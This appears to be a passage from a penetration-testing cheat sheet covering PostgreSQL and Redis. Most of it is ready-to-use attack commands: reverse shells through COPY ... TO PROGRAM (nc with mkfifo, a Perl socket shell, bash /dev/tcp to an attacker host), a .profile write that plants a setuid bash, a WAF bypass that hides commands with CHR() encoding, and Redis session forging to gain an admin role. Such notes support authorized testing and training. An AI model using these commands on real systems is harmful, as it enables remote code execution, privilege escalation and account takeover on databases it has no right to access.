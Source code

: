 #### Reverse Shell

Notice that in order to scape a single quote you need to put `2 single` quotes.

```console
<DATABASE>=# COPY (SELECT pg_backend_pid()) TO PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f';
```

or

```console
<DATABASE>=# COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<LHOST>:<LPORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

#### File Write

```console
<DATABASE>=# COPY (SELECT CAST('cp /bin/bash /var/lib/postgresql/bash;chmod 4777 /var/lib/postgresql/bash;' AS text)) TO '/var/lib/postgresql/.profile';"
```

#### Web Application Firewall (WAF) Bypass

##### Reverse Shell

```console
<DATABASE>=# EXECUTE CHR(67)||CHR(82)||CHR(69)||CHR(65)||CHR(84)||CHR(69)||' TABLE shell(output text);'
```

```console
DO $$
DECLARE
    c text;
BEGIN
    c := CHR(67)||CHR(79)||CHR(80)||CHR(89)||
        ' (SELECT '''') to program ''bash -c "bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1"''';
    EXECUTE c;
END $$;
```

## Redis

```console
$ redis-cli -h <RHOST>
$ redis-cli -s /run/redis/redis.sock
```

### Common Commands

```console
> AUTH <PASSWORD>
> AUTH <USERNAME> <PASSWORD>
> INFO SERVER
> INFO keyspace
> CONFIG GET *
> SELECT <NUMBER>
> KEYS *
> GET
> HSET       // set value if a field within a hash data structure
> HGET       // retrieves a field and his value from a hash data structure
> HKEYS      // retrieves all field names from a hash data structure
> HGETALL    // retrieves all fields and values from a hash data structure
> GET PHPREDIS_SESSION:2a9mbvnjgd6i2qeqcubgdv8n4b
> SET PHPREDIS_SESSION:2a9mbvnjgd6i2qeqcubgdv8n4b "username|s:8:\"<USERNAME>\";role|s:5:\"admin\";auth|s:4:\"True\";" # the value "s:8" has to match the length of the username
```
